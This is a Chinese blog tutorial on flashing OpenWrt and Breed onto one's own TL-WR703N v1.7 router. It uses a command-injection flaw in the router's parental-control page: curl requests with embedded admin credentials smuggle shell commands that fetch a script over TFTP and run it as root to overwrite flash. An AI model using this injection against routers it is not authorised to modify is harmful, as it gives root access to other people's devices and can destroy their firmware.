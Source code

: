 ```yaml
---
layout: post
title: 给 v1.7 版本的 TL-WR703N 刷 openwrt
key: 2018-03-17-wr703n-openwrt

---       
```

从硬件版本 v1.7 起, WR703N 不再支持直接通过 TP-Link 官方 Web 控制台直接刷入 OpenWrt. TP-Link 更改了 U-boot 的代码, 并且禁止了通过官方控制台刷入 OpenWrt 等非官方固件的方式. 因此唯一的刷入方式只剩下拆机后通过串口刷入. 但我们还有一种方式, 那就是通过利用 Web 服务的一些漏洞, 将我们的代码注入到路由器操作系统内并且以 root 权限执行, 从而达到刷机的目的. 刷入 OpenWrt 之后, 我们就可以自己刷入不死 U-Boot, 之后就可以随意折腾了.     
<!--more-->
## 基本流程      
准备工作 -> 编写脚本 -> 利用漏洞上传并执行 -> 脚本通过 TFTP 下载 busybox 和镜像, 执行 busybox 刷写 kernel 和 rootfs 分区 -> 利用刷入的 OpenWrt 安装 Breed -> 完成     
 
## 需要准备的文件
- 一个 TP-Link TL-WR703N 路由器，确保固件版本为 3.17.1 Build 140120 Rel.56593n
- TL-WR703N 的 openwrt 固件 [openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin](https://archive.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
- cURL
- TFTP 服务器 (Windows 可以使用 [tftpd32](http://tftpd32.jounin.net/tftpd32_download.html))
- busybox 1.16.1 MIPS 版 [busybox-mips](https://busybox.net/downloads/binaries/1.16.1/busybox-mips)
- Breed Bootloader [Breed 主页](http://www.right.com.cn/forum/thread-161906-1-1.html)  [breed-ar9331-r1163.bin](https://breed.hackpascal.net/EOL/breed-ar9331-r1163.bin)
- 解锁了 u-boot 分区的 OpenWrt 固件 [owrt-703n-uboot.bin](/content/files/2018/owrt-703n/owrt-703n-uboot.bin) 来自 [TP-LINK 全系列解锁 U-Boot 分区固件](http://www.right.com.cn/forum/thread-142763-1-1.html)

## 步骤
### 准备工作
1. 连接路由器的网线接口到电脑, 确认版本与本文是否一致, 并在系统设置中将路由器恢复出厂设置.     
2. 将 ```busybox-mips``` 重命名为 ```busybox    ```
3. 将电脑 IP 地址设置为静态 (本文中为 192.168.1.9)     

### 分割分区
首先, 利用 ```dd``` 将固件 bin 文件分为 kernel 和 rootfs 两个分区
```
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576

dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```
得到 i1 和 i2 两个文件
### 编写 shell 脚本
创建一个名为 ```aa``` 的文件 (文件名可随意), 写入如下内容:
```
cd /tmp
tftp -gl i1 192.168.1.9
tftp -gl i2 192.168.1.9
tftp -gl busybox 192.168.1.9
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
./busybox reboot -f
```
其中 192.168.1.9 为本机的 IP 地址.    
**注意:** 如果在 Windows 下, 请将编辑器的换行符设置为 Unix 格式 (LF), 或直接下载 [aa](/content/files/2018/owrt-703n/aa)

### 设置 TFTP 服务器
现在应该有四个文件: ```i1, i2, aa, busybox```. 将这四个文件放在同一个目录下, 并且启动 TFTP 服务器, 将服务根目录指向这四个文件所在的目录. 具体方法可自行搜索, 这里不再赘述.

### 利用漏洞上传 shell 并执行
```
curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true" "http://192.168.1.1/"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.9;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6"

```
执行第一二句的时候可能会报错误, 忽略即可. 第三条命令中, 如果 aa 的文件名和本机的 IP 地址与本文不同, 请自行替换掉对应的文件名 / IP.      
执行完第三条命令后, 如果成功, TFTP 服务器会显示路由器正在从服务器中下载文件, 传输完成后路由器的 LED 灯将开始闪烁. **此时千万不要断开路由器的电源, 否则就只能拆机 TTL 刷机了**      
当 LED 灯停止闪烁后, 打开 http://192.168.1.1 , 应该会看到熟悉的 OpenWrt 登陆界面
**在此时由于 U-boot 还未被替换, 恢复出厂设置会导致变砖, 切记不要恢复出厂设置**    
### 刷入 Breed 
由于原版的 OpenWrt 禁止了对 u-boot 分区的写入, 因此我们首先需要刷入解锁固件 ```owrt-703n-uboot.bin```    
通过 LucI 界面登录路由器, 在系统升级中更新固件为解锁版 OpenWrt, 注意不要勾选保存原有设置的选项.    
等待刷入完成后, 登陆管理界面并设置密码以开启 SSH.    
开启 SSH 后, 使用 WinSCP (或其他软件) 连接到路由器, 将 ```breed-ar9331-r1163.bin``` 上传到 ```/tmp``` 目录下     
然后开始刷入 breed:
```
cd /tmp

mtd -r write breed-ar9331-r1163.bin 
```
刷入完成后会自动重启, 重启完毕后将路由器断电, 按住 Reset 按钮接通电源, 等待 LED 灯开始闪烁, 松开 Reset 进入 http://192.168.1.1 , 应该就可以看到 Breed 的界面了.     
进入 Breed 后, 记得将 MAC 地址改回路由器背面所写的 MAC 地址.     
最后, 为了安全起见, 建议用 breed 重新刷回原版 OpenWrt 固件, 以防不小心写坏 U-boot 分区.    

## 参考文章
[Flashing TP-Link TL-WR703N v1.7 to OpenWrt](https://www.shadowandy.net/2015/03/flashing-tp-link-tl-wr703n-v1-7-to-openwrt.htm)      
[找到国外牛人给出的不通过TTL刷openwrt到1.7版本的703n的方法](http://www.right.com.cn/forum/forum.php?mod=viewthread&tid=159078)      
[tplink tl-wr703n v1.7最新固件 免ttl刷openwrt刷breed](http://www.right.com.cn/forum/forum.php?mod=viewthread&tid=184971)      
